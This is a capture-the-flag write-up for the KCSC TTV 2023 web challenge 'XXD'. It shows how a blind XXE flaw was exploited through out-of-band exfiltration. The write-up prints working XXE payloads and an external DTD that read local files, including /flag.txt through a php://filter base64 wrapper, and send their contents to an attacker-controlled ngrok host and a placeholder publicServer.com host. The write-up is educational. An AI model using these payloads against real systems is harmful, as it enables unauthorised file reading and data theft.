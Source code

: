 # KCSC TTV 2023/Web/XXD

![](https://i.imgur.com/jzZJaj0.png)

## Solution

![](https://i.imgur.com/Ix1R31q.png)

After fill in information and submit. At the client side, informations are handled and POST to the server with XML format. 

Because POST XML is handled at client side, we can modify this.

![](https://i.imgur.com/fBlOmW3.png)

Depend on first hint: 

![](https://i.imgur.com/aZnjS8O.png)

We access XXE payload of [Payload All The Thing](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md)

Because the response don't show information, we need to use `OOB (data out-of-band)`

And then I found that payload:

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data SYSTEM "http://publicServer.com/parameterEntity_oob.dtd">
<data>&send;</data>

File stored on http://publicServer.com/parameterEntity_oob.dtd
<!ENTITY % file SYSTEM "file:///sys/power/image_size">
<!ENTITY % all "<!ENTITY send SYSTEM 'http://publicServer.com/?%file;'>">
%all;
```

Depend on second hint to modify our payload:

![](https://i.imgur.com/7iUJMXn.png)

First step is use php build local server:

![](https://i.imgur.com/3XpR29C.png)

And then use ngrok to create tunnel from our local to internet:

![](https://i.imgur.com/0TkVDJI.png)


Second step is create `dtd.xml` file:

```xml
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/flag.txt">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'https://bf4e-104-28-254-75.ap.ngrok.io/dtd.xml?%data;'>">
```
- We have to use `convert.base64-encode` because flag contain special characters
- Modify the link to our server to determine variable `&exfil` is called and this is the way to receive data from variable `%data`, which contains content flag.txt

Last step is modify XML POST request:

```xml
<?xml version="1.0" encoding="utf-8"?><!DOCTYPE data [ 
<!ELEMENT data ANY >
<!ENTITY % sp SYSTEM "https://bf4e-104-28-254-75.ap.ngrok.io/dtd.xml"> 
%sp; 
%param1; 
]>
<data>
    <name>
        &exfil;
    </name>
    ...
</data>
```

Send that request and check on server php local:

![](https://i.imgur.com/N6pUTPa.png)

Copy that then decode base64:

![](https://i.imgur.com/2FFH4wB.png)

Flag: **KCSC{blind_xxD_xxO_xx]_xxe!!@#@}**